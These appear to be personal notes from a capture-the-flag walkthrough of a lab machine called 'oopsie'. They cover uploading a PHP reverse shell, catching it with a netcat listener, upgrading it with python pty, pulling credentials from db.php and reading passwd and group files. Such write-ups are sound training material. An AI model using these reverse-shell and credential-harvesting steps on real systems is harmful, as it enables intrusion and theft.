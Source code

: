 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Username is `www-data` and the machine is named `oopsie`.

Search in the directory `/var/www/html/xxx/` the folder `login`. There are 4 files in that folder. 

## admin.php
Inside the file there's a new id `86575` but no username related.

## db.php
In the first lines appears the username `robert` with a password `M3g4C0rpUs3r!` and the word `garage`.

```ad-question
Maybe ssh with robert user?
```

# cat /etc/xxx
## passwd
```bash
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

## group
```bash
robert:x:1000:lxd
bugtracker:x:1001:robert
```
